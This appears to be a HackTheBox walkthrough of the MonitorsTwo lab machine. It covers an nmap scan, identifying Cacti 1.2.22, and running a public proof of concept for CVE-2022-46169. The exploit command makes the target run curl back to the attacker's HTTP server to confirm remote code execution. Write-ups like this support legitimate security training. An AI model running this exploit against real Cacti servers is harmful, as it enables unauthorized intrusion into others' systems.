 ```yaml
---
title: MonitorsTwo | Walkthrough
date: 2023-05-11 11:06:00 /-0500
author: anthony
categories: [Walkthroughs, HackTheBox]
tags: [hackthebox, enumeration, privilege-escalation]     # TAG names should always be lowercase
description: This post provides a walkthrough of the HackTheBox machine MonitorsTwo, including enumeration, exploiting CVE-2022-46169 for RCE, and gaining root.
image: assets/posts/monitors-two/b55987f8ef9a42df2ad4b4c096e3824d.webp
---
```


## Enumeration with nmap

Run nmap to determine which ports are open.

```bash
└─$ nmap -p- 10.10.11.211

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 11:06 EDT
Nmap scan report for 10.10.11.211
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 20.71 seconds
```
This tells us that there are two ports open on this machine, ports 22 (SSH) and 80 (HTTP server). If we navigate to port 80, we see a web application.

![Screenshot of Cacti Web Application with box highlighting version of Cacti.]{}
We can see that the HTTP Server is hosting something called Cacti Version 1.2.22. As it turns out, there is a CVE leading to Authenticated RCE with a POC.

## Foothold | Exploiting CVE-2022-46169 for RCE
By using this CVE-2022-46169 POC, we can test for unauthenticated RCE following the README.

### Start a python HTTP server:
```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Execute the POC with a curl command to the Python HTTP server:
```

### Execute the POC with curl command to the python http server
```bash
└─$ python3 CVE-2022-46169.py http://10.10.11.211 -c "curl http://10.10.14.86:80"
[*] Trying for 1 - 100 host ids
[+] Exploit Completed for host_id = 1
```
